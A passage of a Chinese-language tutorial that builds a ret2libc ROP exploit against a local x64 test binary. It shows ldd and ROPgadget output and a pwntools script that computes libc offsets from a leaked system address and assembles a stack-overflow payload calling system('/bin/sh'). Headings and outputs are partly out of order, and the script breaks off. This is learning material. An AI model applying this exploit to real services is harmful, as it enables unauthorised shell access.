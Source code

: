 在库中搜索 pop ret

```
panda@ubuntu:~/Desktop/test$ ldd linux\_x64\_test2
    linux-vdso.so.1 =>  (0x00007ffeae9ec000)
    libdl.so.2 => /lib/x86\_64-linux-gnu/libdl.so.2 (0x00007fdc0531f000)
    libc.so.6 => /lib/x86\_64-linux-gnu/libc.so.6 (0x00007fdc04f55000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fdc05523000)
```

决定用 0x0000000000021102

在库中搜索 /bin/sh 字符串

```
panda@ubuntu:~/Desktop/test$ ROPgadget --binary /lib/x86\_64-linux-gnu/libc.so.6 --only "pop|ret" |grep rdi
0x0000000000020256 : pop rdi ; pop rbp ; ret
0x0000000000021102 : pop rdi ; ret
```

#### 构造利用并测试

这里实现两种 gadgets 实现利用目的，分别是 version1 和 version2

```
panda@ubuntu:~/Desktop/test$ ROPgadget --binary /lib/x86\_64-linux-gnu/libc.so.6 --string "/bin/sh"
Strings information
============================================================
0x000000000018cd57 : /bin/sh
```

最后测试如下:

```
#!/usr/bin/python
# -\*- coding: UTF-8 -\*-
import pwn

libc = pwn.ELF("./libc.so.6")
# p = pwn.process("./linux\_x64\_test2")
p = pwn.remote("127.0.0.1",10001)

systema\_addr\_str = p.recvuntil("\\n")
systema\_addr = int(systema\_addr\_str,16)  # now system addr

binsh\_static = 0x000000000018cd57
binsh2\_static = next(libc.search("/bin/sh"))

print("binsh\_static   = 0x%x" % binsh\_static)
print("binsh2\_static  = 0x%x" % binsh2\_static)

binsh\_offset = binsh2\_static - libc.symbols\["system"\] # offset = static1 - static2
print("binsh\_offset   = 0x%x" % binsh\_offset)

binsh\_addr = binsh\_offset + systema\_addr
print("binsh\_addr     = 0x%x" % binsh\_addr)

# version1
# pop\_ret\_static = 0x0000000000021102 # pop rdi ; ret

# pop\_ret\_offset = pop\_ret\_static - libc.symbols\["system"\]
# print("pop\_ret\_offset = 0x%x" % pop\_ret\_offset)

# pop\_ret\_addr = pop\_ret\_offset + systema\_addr
# print("pop\_ret\_addr   = 0x%x" % pop\_ret\_addr)

# payload="A"\*136 +pwn.p64(pop\_ret\_addr)+pwn.p64(binsh\_addr)+pwn.p64(systema\_addr)
# binsh\_addr      低   x64 第一个参数是rdi
```